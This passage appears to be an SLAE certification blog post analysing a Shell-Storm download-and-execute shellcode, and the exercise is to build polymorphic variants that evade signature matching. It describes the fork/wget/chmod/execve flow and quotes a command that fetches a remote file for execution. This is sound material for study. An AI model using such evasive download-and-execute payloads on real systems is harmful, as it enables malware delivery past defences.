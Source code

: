 # Assignment 6: Download and Execute

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-670

## Problem

- Take up 3 shellcodes from Shell-Storm and create polymorphic versions of them to beat pattern matching
- The polymorphic versions cannot be larger than 150% of the existing shellcode
- Bonus points for making it shorter in length than original

## Solution

In this post we are going to look at the Download and Execute shellcode avaiable at ![http://shell-storm.org/shellcode/files/shellcode-862.php](http://shell-storm.org/shellcode/files/shellcode-862.php "").

### Shellcode Analysis

Tracing the instruction set, we observe that the shellcode first creates a child process (a copy) of itself with the `fork()` system call. The child process is used to download the file that later on is executed by the parent process. Since a child process will return a Process ID of `0`, while the parent process will return a non-zero Process ID, the execution flow is able to determine which instruction set it should execute even though the processes are copies. If PID is zero, the program will go ahead and jump to the download section of the code, where it will use the `execve()` system call to execute `/usr/bin/wget 192.168.2.222//x`. 

While the child process is being executed, the parent process goes on to execute the `waitpid()` system call with PID equal to zero (child process). The  waitpid() system  call  suspends execution of the calling process until a child specified by PID argument has changed state. By default, `waitpid()` waits only for terminated children. So, the parent process waits for the download to finish and then goes on to execute the rest of the instructions. 

The parents first uses the `chmod()` system call to execute `chmod 777` on the downloaded file, and then finally proceeds to execute the downloaded file with the `execve()` system call.

It is interesting to note that it was necessary to `fork()` a child in this case because `execve()` does not return execution back to the code that called it. Therefore, by using separate processes for downloading and executing, along with the `waitpid()` functionality, it was possible to execute `execve()` twice from the same shellcode.

### Polymorphic Shellcode

The technique used in the original shellcode sample is entirely replicated in the polymorphic version. Nevertheless, the instruction set is completely different (except for constant strings, such as `/usr/bin/wget` that could of course be used as a fingerprint). Creating an additional encoded layer
